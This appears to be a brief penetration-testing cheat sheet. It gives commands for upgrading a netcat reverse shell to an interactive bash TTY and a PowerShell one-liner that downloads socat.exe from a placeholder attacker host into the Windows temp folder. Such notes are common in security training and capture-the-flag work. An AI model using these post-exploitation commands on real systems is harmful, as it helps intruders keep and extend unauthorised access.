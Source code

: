 --NetCat--
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Ctrl + Z
stty raw -echo; fg

IF SHELL DEAD: reset

--Socat--
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
